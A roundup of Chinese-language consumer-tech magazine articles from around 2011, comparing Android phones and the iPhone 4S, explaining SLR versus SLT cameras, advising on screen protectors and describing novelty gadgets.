## 自家侧滑全键盘对决 HTC S610d VS HTC Desire Z

虽然说现在触控手机成为了主流，但不少朋友仍喜欢全键盘手机，不为别的就为有一个舒服的输入环境。全键盘手机的选购也成为不少用户关心的地方，今天为大家带来的对比评测是两款侧滑全键盘手机，他们就是近期非常火爆的Desire Z和HTC S610d。

## HTC S610d

也称为HTC 纵横，这是国内推出的首款HTC行货具备QWERTY侧滑全键盘的产品。这款手机将会支持WCDMA/CDMA2000/GSM网络，因此是一款不折不扣的三网产品。而该机的外观设计也是颇具特色，在近期的全键盘手机市场上备受关注。

## HTC Desire Z

HTC家族又一款全键盘手机，不过遗憾的是没有在国内上市。Desire Z推出的时间早一些，该机采用了高通Snapdragon MSM7230处理器，主频为800MHz，同时辅以512MB RAM内存，目前Desire Z已经开卖一段时间，在市场上也是颇具人气。

## HTC Desire Z与HTC S610d基本参数概览

| 产品名称 | HTC Desire Z | HTC S610d |
|----------|--------------|-----------|
| 处理器 | 高通Snapdragon MSM7230 | 高通Snapdragon MSM7630 |
| 处理器频率 | 800MHz | 800MHz |
| 显示核心 | Adreno205 | Adreno 205 |
| 运行内存 | 1.5GB ROM+ 512MB RAM | 512MB RAM |
| 屏幕规格 | 3.7英寸 480×800像素 | 3.8英寸 480×800像素 |
| 液晶屏幕 | SLCD | SLCD |
| 摄像头 | 500万像素 | 500万像素 |
| 操作系统 | Android 2.2 | Android 2.3 |
| 机身三围 | 119×60.4×14.2mm | 120.65×61.9×14.2mm |
| 机身重量 | 180克 | 185克 |
| 最新售价 | 1900元 | 3200元 |

## 手感 HTC S610d 更好些

外观方面HTC S610d和HTC Desire Z相差的还真不多，毕竟都属于HTC门下，在外观方面设计都有相同的基因。正面我们可以看到经典的HTC设计，整个机器的色调以及外观边框设计都体现出了“简单就是设计”的理念。对于全键盘手机来说最重要的还是这个键盘设计。在这方面HTC S610d采用的是被动式设计，推动之后会有一个阻力后手机才打开。而HTC Desire Z则采用不多见的分离式设计，推开之后键盘和屏幕就会分离。不过笔者还是更加偏向于S610d的设计，毕竟这样的推拉手感更加的平滑一些，用户也更加能接受。

## 待机对比 相差不大

智能手机发展到今天，功能越来越强大，不过在电池方面却一直都没有突破。因此待机方面也是不少用户关注的地方。从容量方面说HTC S610d采用的是1400毫安时电池，HTC S610d采用的是1450毫安时电池，两者的差距很小，而实际的待机时间两者基本都差不多在两天上下的样子，当然如果长时间使用的话待机时间会有相应的缩水，因此如果出门在外的话尽量减少连接WiFi上网或者玩游戏，这样的话待机时间会下降的很厉害。

## 外形相似 单反单电差哪段

软件组同事的Justdo来找我咨询，由于经常有采访任务，自己的小卡片DC效果不令人满意，想买个入门级单反相机。在网上随便一看，跟单反相机外观很相似的单电相机被炒得挺热，该如何选择呢，我想这也是读者在选购时应该注意的地方。

## 回避机震 单电更出色

一直都不大会分辨哪个是单电哪个是单反。单反相机就是单镜头反光数码照相机（Single Lens Reflex），相机内部最重要的就是有一块活动的反光镜呈45°角安放在胶片平面的前面，反光镜的上方依次有毛玻璃、五棱镜等，五棱镜将实像光线多次反射改变光路，送至我们的眼中，简单的说就是单反相机的取景器里看到的画面就是镜头拍摄的画面。从有单反开始的那天，这种取景方式一直都在延续使用。单反相机里的45°角的反光镜，用手可以将反光镜向上抬起，抬起后，相机的内部背面是实心的，这个便是单反相机。反光镜抬升和下降所造成的振动被称为机震，对相机成像质量有影响，而这个影响不能忽略。

## 单反、单电的区别

- **单反**：拥有一个可以升起/放下的反光板（把镜头取下就能看见）。采用光学取景器。
  - 优点：取景舒适，可以“所见即所得”。
  - 缺点：拍摄时的声音无法消除，实时取景时对焦速度慢。
- **单电**：拥有一个固定的半透明反光板，采用电子取景器。
  - 优点：依靠先天优势可有效回避机震，连拍速度快，摄像时可以自动对焦。
  - 缺点：相比单反，更耗电。

## 半球仿真监视器

在商场超市、酒店旅馆、停车场、图书馆、办公室、仓库厂房、集贸市场、公园场馆、住宅小区周围，或者一些必经路口的显眼位置，安装一个或几个仿真监视器，可以非常有效地震慑和阻吓小偷或不法分子，使他们不敢靠近！与真正的监视器配合使用，有效又可以大大地降低安防的成本！

## 偷钱喵储蓄罐

在箱子的鱼标上面放上一枚硬币，少顷，偷钱喵就鬼鬼祟祟地顶开箱子探出喵头来了，只听“喵”的一声，伸出毛茸茸的小爪，以迅雷不及掩耳盗鱼之势将硬币扒拉进了箱子。喵喵的存在是不容任何人忽略的，不信，你握着箱子摇上一摇，叮叮当当中，那是喵和硬币的幸福生活，与上一款猪猪存钱罐相比我可是会更主动哟！

## 3D对决 LG Optimus 3D VS 夏普SH8158U

在家电和显示器市场已经声势浩大的3D显示技术终于在手机上真正得到应用，在用户关注情况来看LG Optimus 3D和夏普SH8158U两款的具体表现还是很值得我们去了解一下的，下面我们来看一下它的实际表现。

## 夏普SH8158U与LG Optimus 3D基本参数概览

| 产品名称 | 夏普SH8158U | LG Optimus 3D |
| --- | --- | --- |
| 处理器 | Snapdragon MSM8255 | TI OMAP4430 |
| 显示芯片 | 高通Adreno205 | PowerVR SGX540 |
| 运行内存 | 1GB ROM+512MB RAM | 512MB RAM |
| 屏幕规格 | 3.8英寸 480×800像素 | 4.3英寸 480×800像素 |
| 屏幕材质 | ASV | TFT 3D |
| 摄像头 | 800万像素 | 500万像素 |
| 操作系统 | Android 2.2 | Android 2.2 |
| 机身三围 | 121×62×12毫米 | 128.8×68×11.9毫米 |
| 机身重量 | 140克 | 117克 |
| 最新售价 | 2850元 | 2750元 |

小提示：何为视差屏障技术？我们要明白人的两眼之间的距离决定了人可以看到3D影像。也就是说必须让左眼和右眼看到不同的影像，在大脑中合成出来的就是立体画面。而这一切在单个屏幕的手机上利用视差屏障技术真实模拟了生活中的视觉原理。手机上的裸眼3D屏幕，是把每个像素分别做等距离的分割成垂直线条状，然后利用扫描的方式将左右影像交错地融合在一起，同时借助透光狭缝与不透光遮障垂直相间的光栅条纹等处理，使人们双眼所看到的影像产生差异而有立体的感觉。



## 同是裸眼3D技术 显示稍有差异

我们在未开启3D模式下，把屏幕亮度调到最高看看两款手机的显示效果。夏普SH8158U采用了自家的ASV屏幕，强光下依旧有着出色的显示效果，比较特别的是夏普的TapFlow界面有别于原版的Android系统，使用起来也比较有艺术感，操控的字体和图标都相对细腻。LG Optimus 3D使用的是4英寸TFT屏幕，相比夏普SH8158U显得大了不少，显示色彩效果明显比不上对手，强光下的显示也略逊一筹。有这样的结果并不奇怪，毕竟使用的屏幕材质差异很大。两款机器拿在手中各自开启3D模式，可以明显看到分辨率下降，直观感觉就是画面变粗糙了。夏普SH8158U的系统菜单就是裸眼3D操作，新鲜感十足不过细细观察有种模糊的感觉，就好像对焦不准的照片，不过这个在动态画面下不容易被发现。LG Optimus 3D的立体效果相对比夏普SH8158U的清晰一些但是色彩上有所欠缺（原因上文提到了）。对于这款LG Optimus 3D的系统，采用了自家打造的S-Class界面，在Android原生界面上加以优化，让用户的体验更出色。而在程序菜单中，我们也能看到程序被系统分为三个区域，这样更容易分类，便于用户快速查找。而需要提一句的是，这款手机并不是开机就显示3D界面，这一点跟夏普SH8158U不一样。LG Optimus 3D有特定的3D菜单，必须开启之后才可以显示3D效果，因此在主界面还是比较“正常”的。不过在特定的3D界面上，LG这款Optimus 3D是无法关闭3D效果的，必须进入相应功能，比如视频、拍照等才可以关闭，这一点设计不太完美。在播放3D视频方面，两款手机的效果都很出众，没有出现卡顿的现象。不过问题也比较突出的是，在观看时可视角度上两款手机都比较有限，不过夏普SH8158U表现稍好一点（屏幕材质原因），因为姿势要固定才有好效果，不建议长时间使用。



## 游戏体验 炫丽同时要防眩晕

说到游戏体验，不得不提及两款手机的核心配置。夏普SH8158U采用了高通MSM8255芯片号称最强单核处理器，而LG Optimus 3D采用了双核的TI OMAP4430性能优势明显。而显示芯片方面夏普SH8158U所使用Adreno205理论性能是上一代Adreno200的4倍，LG Optimus 3D所用显示核心为PowerVR SGX540比iPhone 4还要强。整体看来LG Optimus 3D的性能要占优一些，可笔者的实际体验告诉你，都差不多。原因比较简单，现在还没有通用的裸眼3D游戏出现，手机内预装的游戏也不一样，自己运行自己的游戏当不能有什么问题。LG Optimus 3D手机中自带的LG世界，是LG打造的一个app store，在里面可以下载到新的3D游戏，目前数量不多。就游戏体验而言感觉很新颖，大有一种在IMAX影院的感觉。在笔者使用到20分钟左右的时候明显出现了头晕现象，望各位用户有个心理准备。

## 3D拍照有胜负

既然是3D手机，拍摄3D画面自然是必有功能之一。但是当笔者拿到两款手机的同时就发现夏普SH8158U只有一个摄像头，而LG Optimus 3D使用了3D拍摄必备的双摄像头。夏普SH8158U后置了960万像素的摄像头，而且是金贵的CCD感光元件，成像质量不容小觑。但仅一枚摄像头可怎么拍3D照片呢？笔者试着打开夏普SH8158U的拍照功能，发现有3D照片拍摄可选，这到底是怎么实现的呢？原来在拍摄3D照片的时候是采用快速连拍两张照片然后用系统合成的方法实现的，这就要求用户在拍摄时不能有太大的动作，不然照片质量有可能打折扣。而LG Optimus 3D采用了双500万像素的摄像头，真正能从硬件上支持3D照片和视频拍摄，这一点带来非常出色的体验。虽然只是500万像素摄像头，但是LG Optimus 3D却支持1080P视频的录制，综合表现很华丽。这么一比好像真假立判一样，但以笔者个人经验而言，平时用得最多的还是常规照片拍摄，如果非3D照片质量来比较显然夏普SH8158U出色得多。总结：两款3D手机各自表现都比较优秀，3D视频播放和3D游戏的测试都很流畅，局限于屏幕材质的区别，夏普SH8158U显得可视角度更大，更艳丽一点。但在拍摄方面LG Optimus 3D确实是真正的3D拍摄，不过这个问题要看买家如何取舍。如果把夏普SH8158U的拍摄功能视为常规相机附带3D拍摄能力，那夏普SH8158U的3D拍摄就不那么鸡肋了。

## 抱枕遥控器 Pillow Remote Control

曾经有个抱枕很实用，有个口袋可以装遥控器，已经OUT了，现在抱枕，遥控器都二合一了！不信？看看Brookstone出品的这个抱枕遥控器，功能键非常齐全，直接用它就能看你的电视与DVD了，该抱枕内置6合1通用遥控器，采用2节AAA电池供电，可以操控大多数的红外遥控电器。

## 蹼手游泳手套 Darkfin Gloves

在夏天悄然离去的现在，有多少朋友还在怀念在水中嬉戏的时光呢？如果有机会让你像鸭子一样畅游，你是否愿意呢！记得带上这个由美国Black Lagoon Products设计制造，叫Darkfin Gloves的蹼手手套！它不仅让你看起来像个真正的鸭子，更重要的是，还可以让你花更少的力气就能游很快，因为这个有蹼的手套比人手增加70%的面积，而且轻量化的强化橡胶不会增加重量，除了游泳、潜水、冲浪、跳伞都用得上！

## 分歧终端机 Decision Maker

无数聪明人也会摘下花瓣玩起“爱我，不爱我”幼稚游戏的原因，何不试试“分歧终端机Decision Maker”呢？能直接放在床前案头随叫随到，彻底避免事到临头了还得半夜起床下楼采花的尴尬。玩法非常简单，当你有了难以决定的问题，就拨弄那悬空的小球吧，在万有引力和磁力等神秘力量的共同牵引下，小球最终将停留在圆盘某个位置的上空，而这个位置，将可能是“Yes（是）”、“Maybe（也许）”、“Definitely（绝对的）”、“No way（不可能）”、“Try again（再试一次）”和“Ask a friend（问问朋友吧）”等建议中的一个。于是，我们成功地将烦恼留给了上苍，而将开心留给了自己。

## 手机必备伴侣 贴膜怎么选

### 摆正思想 莫小看薄薄一贴膜

要知道一张贴纸，几把工艺刀，几张手机贴纸就成了一个专业‘贴膜摊’，据称贴膜摊主几分钟就可以搞定的买卖一天可以贴几十张，这些价格从几元到十几元不等，包装大都十分简陋，很少看到中文标识，多是一些看不懂的英文、日文，在小贩口中就成了进口货，地摊上的贴膜虽然便宜，但质量堪忧，有的贴膜在使用几天后，出现模糊、进灰、有气泡等现象，有的贴膜不到半个月就脱落了。劣质的贴膜，尤其是所谓的整机贴膜，不仅会在手机上留下残胶，而且还会影响屏幕清晰度、吸附灰尘等，最可怕的是，一些劣质贴膜的底胶虽然黏性大，却含有有毒的苯（据说会引起白血病），长期贴身携带会无异于慢性自杀。

其实，贴膜做为手机的必要周边是一个正规产业，生产的要求很严格。

无论是什么膜，它基本都是由一层几乎纯净无色的基材（一般使用PET薄膜）作为主要部分，而该层基材只起到了透光的作用，想要把膜贴在屏幕上，必须在此基材底部添加一层粘性物质。正规厂商是在基材下面使用高温添加一层硅胶分子层，硅胶分子具有高粘性，可反复冲洗使用等特点，而且不会在屏幕留下任何痕迹，这样保证了保护膜时的快速以及高吸附性。一般劣质厂商使用的都是单层方案，两边不添加硬化涂层，这就使得我们的贴膜动不动的划痕遍布，要不就是翘边卷角，为了粘贴方便会直接在基材下面涂抹胶水了事。但在撕下来的时候却会将脱落的胶水粘贴在屏幕上，而且无法保证气泡的排除。

### 高透型贴膜（俗称净膜）

高透型贴膜是我们使用率最高的，真正高透膜一般采用HR材质，具有透光性、疏水性、易清洁等特性，贴膜表面具有抗静电处理，可避免吸附灰尘，我们在购买时应注意产品标示有没有HR，不过光有HR标示是不够的，在贴膜种类中笔者首推ARM材质，其特点是耐磨性出色，贴膜加入此种材质不影响透光性，而且在贴的时候不容易产生气泡，撕下来没有残留粘合剂，相对来说这种膜质量最好，当然价格也不会很贵，零售价在30以上。不过再好的高清高透膜都无法完全的防止指纹与油脂，只是根据硬化涂层的好坏决定了多与少。

注：A.R.M. 采用由日本进口高通透防刮花物料，并使用高硬度表面防止保护贴扭曲、包装面层使用 ARM Station 独家研发技术，进一步简化安装保护贴之过程。

CFan推荐产品：
- ZEOdigi
- Wrapsol
- A.R.M. Kit黄金贴膜，都是不错的品牌。

### 磨砂贴膜

而防划伤能力最强的要数磨砂贴膜了。磨砂膜是将硬化涂层加入了厚厚的颗粒状物质，因此而有磨砂的良好质感，同时也消除了指纹的效果。而标明HSR材质的磨砂贴膜硬度和厚度更有保证，一般的摩擦不会伤及贴膜，滑落的磕碰也不用担心屏幕，但价格相对也不会便宜（40元左右）。但是透光率最高仅能达到80%左右，因此我们常常仅能看到非常模糊且有颗粒状的画面，它是以牺牲光学效果来达成防指纹、油脂的目标。笔者认为有些舍本逐末。

注：HSR 系列在融合了HR高清晰效果外，添加了磨砂材质表层，具备了防刮花防指纹的特性，表面抗静电，增加触摸手感是较为高档的贴膜种类了。

CFan推荐产品：
- 卡登仕
- Benks（仅推出磨砂贴膜），品质口碑都不错。

### 特种贴膜

镜面膜在iPhone刚出来的时候风靡过一段时间，因为将硬化涂层替换为一种可作为镜子效果的材质，吸引了不少女生使用。但是不到70%的透光性非常低暴露了产品的本质，耐刮性也没有因此得到提升。而最近又推出的一种防偷窥膜又涉及折射率的问题，又分为四向与两向，四向是前后左右四个方向均不透光，只有垂直正对屏幕才能看到光线的传播。两向是左右两个方向不透光，只有前后以及垂直位置才能看到屏幕的光线。原理也很简单，就是通过类似光栅的原理把手机屏幕的可视角度缩小，除了正对着手机的使用者，别人难以看清手机上的内容。以iPhone 4为例，常规手机的可视角度可达178°，贴上防窥膜之后，可以清晰地看到当iPhone 4转到30°（视线与屏幕垂线所成角度）时其菜单就略显模糊，达到45°左右时基本看不清楚。这对于一些有特殊要求的用户还是有吸引力的。注意这种贴膜可以做到融合上述高透或磨砂的性能，不过价格更高一点，有需要的同学优先选择网购为宜（市场上需求量不大，价格有可能虚高）。

我们在购买时没必要强调贴膜要具备哪些特质，只要注意贴膜包装上是否注明了上文提到的缩写便可知道。

## 难以再次改变世界的iPhone 4S

2011年10月5日凌晨，苹果发布了新一代手机产品—iPhone 4S（以下简称为4S）。这款手机并非是我们期待已久的iPhone 5，更为宽大纤薄的机身设计，更高的分辨率等等猜测都已成浮云。而尽管4S在硬件配置方面有较大提升，但是与iPhone 4相同的外观造型却让很多人对此并不看好。今天这款新品将在第一批上市国家正式开卖，遗憾的是其中并没有中国香港地区以及中国内地，市场货源紧张也就催生了更多黄牛在中间炒价。

据最新消息，中关村某商家向外界透露，首批4S或将于14日正式到货，而一万多元的市场价格更是雷倒了一大片人。面对如此售价笔者要说，我不是官二代，买这个不能公款报销……还是老老实实的用着各自的iPhone 4吧，下面笔者叙述一下几大不买4S的理由，让各位冷静一下。

### 孪生兄弟 不换也罢

由于之前对iPhone 5的一些猜测的升级，例如更大的屏幕、更薄的机身等等都没有出现在iPhone 4S上。所谓期待越大打击越大，在手机外观造型方面，我们没有看到苹果的任何创新。iPhone 4S与前作iPhone 4长相几乎一模一样，只是改变了天线位置，而此举早在C网iPhone 4时代就已经出现了。如此雷同的外观设计会让那些求新求变的果粉对其失去了购买欲望。期待了那么久，花了那么多钱买的4S若是被人误认为是上代的4，白忙活一场嘛！

### 硬件的升级更像是完成作业

对于A5双核处理器，大家并不会感到陌生。这颗CPU率先被应用于苹果iPad 2之上，而如今它已成为iPhone 4S最核心的部件。不可否认的是，强劲的硬件配置让4S的娱乐体验得到大幅提升，不过就时下iPhone软件资源来说，并没有对双核应用做以划定，对于生活中常用的软件，A4单核芯片还是能够轻松胜任的，而据相关软件检测显示，iPhone 4S采用的A5处理器并非为1GHz，而是降频到了800MHz，此外运行内存也保持原来512MB。双核处理器配合512MB RAM总是让人感到不爽。至于官方为什么会降频，这或许是出于电池续航时间的考虑吧。iPhone 4S表现并不令人满意。

苹果新品iPhone 4S内置了一枚800万像素并且拥有F/2.4大光圈摄像头，更为先进的背照式传感器以及出色的自动白平衡等功能也最大程度的保证了其拍照的真实效果。作为最新一代产品，就算是完工作业提升是必然的，而反观iPhone 4，500万像素背照式CMOS摄像头的加入也让他在如今智能手机阵营中依然处于领先地位。而到了4S只有像素的升级显然不怎么厚道。尽管4S拍摄出的照片尺寸更大，显示效果更为清晰，但是如果不冲印出来，仅仅上传到微博中（要经过系统的压缩），这点升级意义不大。要知道三星的某些手机已经达到1200万像素了。

这里有一个比较讽刺的话题，4S改掉了前代死穴在天线设计上彻底解决了信号因手持而骤然衰减的问题，不会再出现信号突然丢失，通话断掉的现象。不过，这个能称之为升级吗？早在iPhone 4现世前就应该发现并解决的问题，由于后代没有遗传下来就是升级，不免令人唏嘘。

### Siri 语音不是很给力

iPhone 4S新加入的Siri语音控制功能可谓是整机的一大亮点。该项功能支持自然语音输入，无需使用特定命令，像正常说话一样即可。通过它我们就可以进行天气查询、信息回复以及日程安排等操作，功能十分强大。对于Siri这项新技术，我们还应该考虑这样的问题，在安静的工作环境中你是否会特立独行的进行语音回复短信？嘈杂的场所诸如公交站、各大商场中Siri是否能够正确识别主人的需求？而在读取个人相关短信等信息时是否也会暴露出个人隐私等等，所以在看到它方便的同时也应看到事物的另一面。最重要的语音助理Siri暂时不支持中文，不知道到时候行货发售的时候是否支持，如果仍然不支持（可能性很大），我买它来干什么。再有，iCloud和Apple Store一样，在国内的速度仍然很慢，如此重要的功能，让人等得不耐烦谁会去用，还是那句话，速度决定一切。从苹果的服务态度可以看出其对中国果粉的轻视。

### 结合自身 还是冷静消费吧

众果粉们中估计有很大基数是去年购买的行货版iPhone 4，这就有一个问题了，行货是合约机，里面预存的话费是两年时间的。如今，仅用了一年就又要换手机，无形中把一半的钱浪费了。而手里的iPhone 4在4S面前只能充当iPod Touch的角色，多么可悲。

## 会扭脖子的晃晃钟

### Swing Clocks

荷兰NexTime公司出品的创意时钟——晃晃钟Swing Clocks，装上电池，挂在墙上，轻推一下钟面，它就会开始晃啊晃、晃啊晃，晃啊晃……一直晃下去……


## 发烧对对碰 小米手机VS三星i9100评测

Android系统手机最大特点是几乎每个月都有新的旗舰产生，不断有强机在刷新Android系统手机的纪录。三星i9100一直被冠以最强的Android智能机，而国产神机小米手机也介入到双核大战里，1.5GHz双核处理器+1GB RAM将其推上巅峰之境。熟悉硬件参数的朋友都知道，主频固然是衡量手机性能的重要参数，但构架更重要。在iPhone 4S还未到我们寻常百姓手里时，我们看看这两款机器到底谁更威猛一些。

就整机的外观来讲，三星i9100毫无疑问的是最卓越的。即便三星绝大部分手机即便是旗舰机都是采用了塑料材质，但是出色的工艺依旧让其显得手感细腻而有质感，三星i9100的轻薄是其最大卖点。不过也被许多网友埋怨不够厚实。小米手机则显得修长，外观看着不错，老实说手感比起来要逊色不少（毕竟成本、售价也不一致）。小米手机机身三围为125×63×11.9mm，雷军的解释是：这个尺寸更适合中国人的手掌把控，拿在手中手感确实不错而且很有分量。三星i9100机身三围为125.3×66.1×8.49mm，因为搭载一块4.3英寸屏的原因，所以明显比小米手机更宽，拿在手中确实有点砖的感觉……

先来看屏幕，就先从两款手机屏幕尺寸说起吧。小米手机的屏幕采用一块4英寸、分辨率854×480像素、长宽比16:9夏普屏。三星i9100采用了一块4.3英寸800×480分辨率Super AMOLED Plus屏幕，经过多次升级，三星已经把这种屏幕显示技术发挥到了极致。就材质方面来说，夏普屏和Super AMOLED Plus屏幕绝对都是处于顶级行列，可视角度、色彩饱和度以及色彩的覆盖等特性方面更是无可挑剔，夏普屏最大优势画质清晰，细腻，在不同角度看色彩都很鲜艳。三星Super AMOLED Plus屏幕绝对是一块好屏，在色彩饱和度方面属于“强迫症型完美”，有点失真、颜色还原度略差。两块屏幕很难单凭眼睛分出好坏，

| 参数         | 小米手机                  | 三星i9100          |
| :----------- | :------------------------ | :----------------- |
| 处理器       | 高通Snapdragon MSM8260    | Exynos 4210        |
| 显示芯片     | 高通Adreno220             | Mali-400MP         |
| 运行内存     | 1GB RAM+4GB ROM           | 1GB RAM+4GB ROM    |
| 屏幕规格     | 4.0英寸 480×854像素       | 4.3英寸 480×854像素|
| 屏幕材质     | TFT（半反半透）           | Super AMOLED PLUS  |
| 摄像头       | 800万像素                 | 800万像素          |
| 操作系统     | MIUI/原生Android(基于V2.3.5) | Android OS V2.3    |
| 机身三围     | 125×63×11.9毫米           | 125.3×66.1×8.49毫米|
| 机身重量     | 149克                     | 116克              |
| 最新售价     | 1999元                    | 3250元             |

## 到底谁更强 还得看分数

所谓是骡子是马拉出来遛遛，现在的Android用户似乎很认可数据跑分这类简单粗暴的方式来讨论到底谁的机器处理器速度更快，其实跑分结果中很多数据可以参考，但是完全单靠数据说话未免有些片面。

但是今天评测的两款机器，三星i9100号称跑分王，小米手机号称全球最快双核处理器，如果不跑分看看数据，未免不能满足大家眼瘾。就跑分数据而言，会受到很多因素干扰，包括和处理器优化都有关系，所以仅供参考，毕竟我们需要的不是一个“高分低能”而是一个真正可以流畅应用的智能手机。

Quadrant针对手机的CPU、内存、I/O输入输出、2D及3D图形的性能作测试，结果显示三星i9100这个跑分王竟然败下阵来，不过分数差距不大，别忘了三星i9100可是1.2GHz双核，可见猎户座确实蛮厉害。

超级兔子绝对是国人常用的跑分测试软件，测试项目和刚才使用的Quadrant差不多，不过能看到你的分数在世界的排名，不过满眼望去前几名基本都是超频后的三星i9100……猎户座超频跑分还真是撑得住呀。

## 高清播放测试 i9100更顺畅

在多媒体测试方面，三星i9100凭借优秀的解码芯片及处理器加解码表现优异，不论是1080P还是720P视频均能流畅播放。小米手机自带播放器不支持WMV、RMVB格式视频，不过安装了第三方软件一样可以顺畅播放。不过出现过卡顿、闪屏的极个别现象，也许是软件兼容性问题。笔者多次针对小米手机播放720P（MKV）、1080P（MP4）视频进行连续播放及进度条拖拽播放测试，总得体验来说还是不错，卡顿基本不明显，只是在拖拽到片头时会有卡的现象。

## 续航能力有望达两天

经过了如此有针对性的性能测试，我们来看一下为什么将续航和全文总结放到一起呢？其实两款手机续航都非常不错，小米手机搭载一枚1930mAh锂电池，三星i9100搭载一枚1650mAh锂电池。小米手机在70%电量下持续高强度使用14小时手机终于报警，所以正常使用，保守点至少2天没问题。而三星i9100由于电池的基础电量比小米要小一些，使用两天有点艰苦。

## 总结

通过整篇文章对比不难发现，三星i9100最大的优势在于猎户座1.2GHz双核处理器和一块养眼的炫屏，如果预算在3千元以上，那么不要犹豫直接买i9100即可；至于小米手机和i9100不同，小米手机更看重整体硬件组合和良好的用户体验，无时不刻不为发烧友考虑，所以你要是发烧友或者精打细算的性价比玩家，不要错过适合你的小米手机。

## V8引擎造型声效削笔刀

是男人都会梦想有一台配置V8引擎的汽车，那咆哮的声浪，澎湃的动力，一定让你血脉喷张！而今，V8引擎也可以在你的办公桌上咆哮啦！这款Top Gear V8引擎削笔器Pencil Sharpener，由4只AA电池驱动，在踩你的铅笔的同时，还能发出真实V8引擎一样的动静！只不过，这声音不会太嚣张，以免让办公室里其他人被你吓一跳！



## 掀屁股小人有“币”快放储蓄罐

存钱罐在我们的桌面再平常不过了，不过另类产品也有哦。对付小人势利眼，也可以用钱币来对付。叫卑币小人没屁用，只要90度扭转小人头，小人立即币滚尿流。内附一张贴纸，可自行剪下写上别人的名字搭配贴上。


## 电脑隐私保护器

相信有不少IT达人不喜欢被别人翻看自己的磁盘文件吧，这下好了，有了这个电脑隐私保护器，就不怕自己一不留神别被人偷看电脑。本产品分为两件式无线遥控锁屏器，分为电脑端USB插件，以及口袋夹式样式的无线遥控器，有效覆盖距离为4到9米。在使用者离开电脑时，自动锁定屏幕，保证电脑资料不会轻易被人偷窥。使用者回到电脑前时，自动解锁屏幕。在口袋夹式遥控器上有一个“开/关”按钮，可以直接手动控制开关，即时开启关闭保护功能。


## iPhone 4S阻击战之群雄争霸

就在iPhone 4S没有造成预期爆炸效应的同时，其余厂商迅速跟进纷纷推出了自己的王牌机型占领市场。

## 三星 Galaxy Nexus 谷歌亲生子驾到

作为首款搭载Android 4.0系统的智能手机，由三星代工的GALAXY Nexus凭借强悍的功能配置而成为了不少人期待入手的对象，凭借其谷歌三太子的身份，可以第一时间能升级到Android的最新版本，不像那些后妈生的手机为升级而发愁了，本次Galaxy Nexus到底能为iPhone 4S带来多大冲击呢？

三星Galaxy Nexus配备了德州仪器的OMAP 4460 1.2GHz双核处理器和1GB RAM，看起来要比iPhone 4S的实际仅有800MHz的A5双核处理器和512MB内存更为抢眼，以iPhone 4时期来看Android平台的双核手机硬件配置均高于对手，但在使用效果来看都没有与之匹敌的产品，以此类推，搭载各自的系统运行之后，iPhone 4S的优势会明显体现出来，三星Galaxy Nexus未必能在使用上对iPhone 4S造成多大威胁。

三星GALAXY Nexus这次相机画素没有提升，依旧停在500万像素，对于高阶新机来说是满不寻常的。反看iPhone 4S的800万像素背照式Cmos摄像头，GALAXY Nexus从硬件上输了结结实实。倒是Google强化了相机系统，主打高速拍照能力是个亮点，GALAXY Nexus拍照有一个特殊技能叫零迟缓快门，也就是按下快门后立刻拍摄，让相机不会慢半拍，捕捉到眼睛当下看见就要拍摄的画面，从软件上实现所见即所得；加上GALAXY Nexus很快的处理速度，拍完一张照片几乎是可以马上再拍下一张。这点iPhone 4S没有做到，从照相的使用过程来看GALAXY Nexus确有过人之处。

GALAXY Nexus按照汇率换算5200元人民币，到底有多少人问津是个门槛，更何况目前国内iPhone 4S的价格已经稳定在6000左右，预计年底还会更低，假如Nexus价格不快速跳水，销售的情形恐怕不容乐观。

## 诺基亚不甘示弱 芒果新机携势而来

Android 4.0的光芒下芒果（Windows Phone 7）借诺基亚新机Lumia 800展露了身影，诺基亚Lumia 800采用了Windows Phone 7的最新版本“芒果”，不过诺基亚800的屏幕为3.7英寸，分辨率为480×800，搭载主频为1.4GHz的单核高通MSM8255处理器，RAM为512MB。对比iPhone 4S来说处理器的主频完胜，通过外国媒体的测试可以发现，无论是以手机版还是以桌面版浏览网页，iPhone 4S都要比Lumia 800快那么一点点（幅度很小），不过我们还是要注意到，Lumia 800的浏览器的渲染方式是不同的——IE在显示网页内容之前会在后台进行一些工作然后直接显示大片内容，苹果则是一点点渲染出来的，这使得两者速度的差异显得更加明显了。

据诺基亚介绍，Lumia 800拥有惊人的相机配置：800万像素，f/2.2 Carl Zeiss Tessar镜头（卡尔蔡司天塞镜头）、双LED闪光灯，零秒延迟，按下快门之后迅速拍下照片；Lumia 800的相机可以以30fps的速度记录720P高清视频，它还提供了相片编辑功能，例如去红眼、运动模糊降噪等。此外，还支持16:9宽屏图像，在此比较之下iPhone 4S的数值没有太多优势了，其中iPhone 4S可以录制1080P的视频倒是强于对手一个有利因素，不过iPhone 4S的容量在实际使用中实在不允许录制太长时间的全高清视频。

但如果单纯从手机硬件看Lumia 800还是非常不错的，有诺基亚强大硬件和微软的系统，确实能碰撞出一些火花，不过作为我们消费者来看诺基亚Lumia 800在使用层面上远不及Android和iOS的软件数目丰富，如果价格能控制在3000元价位的话还能有一定的竞争力，否则难以撼动iPhone 4S的市场地位。

## 庶出也有强机 摩托罗拉 DROID RAZR 横空出世

10月20日下午消息，摩托罗拉于昨日发布了全球最薄智能机DROID RAZR，机身厚度仅7.1mm，然而4.3英寸，Super AMOLED屏幕材质，7mm级超薄机身，1.2GHz双核处理器，800万像素，这些参数显然对iPhone 4S有些冲击，DROID RAZR搭载超频版SGX540图形芯片，兼容性很好，能运行绝大多数游戏，但是发热量有点大（通病了……），反观iPhone 4S搭载SGX543MP图形芯片，理论数据是SGX540的4倍，游戏能力上摩托罗拉DROID RAZR输给了iPhone 4S，高端旗舰在游戏上输掉意味着整体机能的不佳，稍加琢磨就可发现摩托罗拉DROID RAZR更多的在于外观上强调轻薄，在实际使用意义上的突破并不大。

不过在我们最终用户看来，决定其成功与否还看价格，如果没能与iPhone 4S拉开距离我更情愿购买后者。

## 2000元单核强机对决 谷歌Nexus S i9023 VS 索尼爱立信LT15i

前两天同事键圣纠结了好一阵，原来他自己手里有2000多元的预算，相中了谷歌的Nexus S i9023和索尼爱立信LT15i，两款手机特点各异但实际性能相差不大，几番权衡还是拿不定注意。

谷歌Nexus S i9023是谷歌自家推出的第二款手机，也是市面上最先用上Android 2.3的手机，基于其纯正的谷歌血统，日后能率先升级到Android 4.0也是其一大杀手锏。从机身侧面看来，谷歌Nexus S i9023整个平面有一定弧度，在打电话的时候更贴合人脸，机身四角以及边缘运用了大量弧线设计，去除了棱角，不仅更加贴合手掌，而且也更加美观。

